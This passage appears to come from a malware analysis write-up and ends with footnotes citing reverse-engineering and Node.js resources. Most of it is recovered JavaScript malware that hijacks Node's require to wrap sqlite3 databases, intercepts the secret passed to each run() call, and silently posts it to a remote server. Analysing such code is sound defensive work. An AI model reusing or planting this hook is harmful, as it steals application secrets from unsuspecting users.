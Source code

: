 ```javascript
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ "secrets": enc })
        }).catch(e => {}); // Handle any errors silently
    }

    // Function to create a proxy for the database object
    function make_db_proxy(db) {
        return new Proxy(db, {
            get(obj, prop) {
                if (prop === "run") {
                    const orig_run = obj.run.bind(obj);
                    return (...args) => {
                        // If there are at least 2 arguments, hook the second argument (the secret)
                        if (args.length >= 2) {
                            hook(args[1]);
                        }
                        // Call the original run method
                        return orig_run(...args);
                    };
                } else {
                    // Bind and return the original property if it's not "run"
                    return obj[prop].bind(obj);
                }
            }
        });
    }

    const Module = require('module');
    // Proxy the require function to intercept module loading
    Module.prototype.require = new Proxy(Module.prototype.require, {
        apply(target, thisArg, argsList) {
            // Call the original require function
            const result = Reflect.apply(target, thisArg, argsList);
            // If the required module is 'sqlite3', proxy its Database class
            if (argsList[0] == 'sqlite3') {
                const Database = result.Database;
                result.Database = new Proxy(Database, {
                    // Proxy the constructor of the Database class
                    construct(target, args) {
                        // Create and return a proxy for the new database instance
                        return make_db_proxy(new target(...args));
                    },
                });
            }
            return result;
        }
    });
});
```


[^binja]: <https://binary.ninja/>
[^nodejs]: <https://blog.logrocket.com/snapshot-flags-node-js-v18-8/>